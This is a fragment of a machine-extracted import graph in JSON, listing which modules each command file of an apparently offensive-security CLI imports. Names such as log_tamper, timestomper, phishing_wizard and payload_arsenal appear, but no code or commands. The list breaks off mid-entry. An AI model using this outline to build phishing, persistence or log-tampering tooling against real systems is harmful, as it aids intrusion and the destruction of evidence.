{"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_cli_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_cli_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_cli_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_roles"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/marketplace.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/marketplace.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/marketplace.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/marketplace.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/marketplace.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/marketplace.py", "target": "cli.marketplace_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/marketplace.py", "target": "cli.plugin_tiers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/marketplace.py", "target": "modules.module_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/marketplace.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/marketplace.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/marketplace.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "defusedxml.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "core.autonomous"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "modules.intelligence_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "skills.lazyown_facts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "modules.session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "skills.lazyown_parquet_db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "modules.threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "modules.playbook_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mcp_bridge.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.autosuggest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.banner_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.banner_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.show"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "core.process"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "modules.module_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "modules.module_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "modules.module_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "modules.payload_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "rich.rule"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.recommendation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.exploration_view"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.command_chain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.dashboard_tui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.palette_overlay"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.sessions_browser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.timeline_browser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.graph_overlay"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.banner_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "cli.banner_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/misc_migrated.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mobile_macos.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mobile_macos.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mobile_macos.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mobile_macos.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mobile_macos.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mobile_macos.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mobile_macos.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mobile_macos.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mobile_macos.py", "target": "core.process"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mobile_macos.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mobile_macos.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/mobile_macos.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/module_manager.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/module_manager.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/module_manager.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/module_manager.py", "target": "modules.module_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/module_manager.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/nethelpers.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/nethelpers.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/nethelpers.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/nethelpers.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/nethelpers.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/nethelpers.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/nethelpers.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/opsec_cleanup.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/opsec_cleanup.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules.opsec_scorer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules.log_tamper"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules.forensic_cleaner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules.timestomper"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules.memory_cleaner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules.network_opsec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules.log_tamper"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules.log_tamper"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/orchestration.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/orchestration.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/orchestration.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/orchestration.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/orchestration.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/orchestration.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/orchestration.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/orchestration.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/orchestration.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/orchestration.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/orchestration.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/orchestration.py", "target": "cli.reasoning_stream"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_arsenal.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_arsenal.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_arsenal.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_arsenal.py", "target": "modules.dotnet_payload"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_arsenal.py", "target": "modules.staged_delivery"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_arsenal.py", "target": "modules.polymorphic_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_arsenal.py", "target": "modules.macos_payloads"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_arsenal.py", "target": "modules.linux_advanced_payloads"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_arsenal.py", "target": "modules.dotnet_payload"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_arsenal.py", "target": "modules.macos_payloads"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_arsenal.py", "target": "modules.linux_advanced_payloads"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_generation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_generation.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_generation.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_generation.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_generation.py", "target": "modules.payload_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/payload_generation.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist.py", "target": "modules.categories"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "modules.traffic_morpher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/persist_migrated.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "smtplib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "email.mime.multipart"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "email.mime.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "modules.phishing_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "http.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "modules.phishing_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/phishing_wizard.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pivoting.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp.py", "target": "modules.categories"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "rich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "rich.syntax"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "remcomsvc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "modules.yara_scanner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "yara"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "traceback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "traceback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/postexp_migrated.py", "target": "yara"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "base64"}, 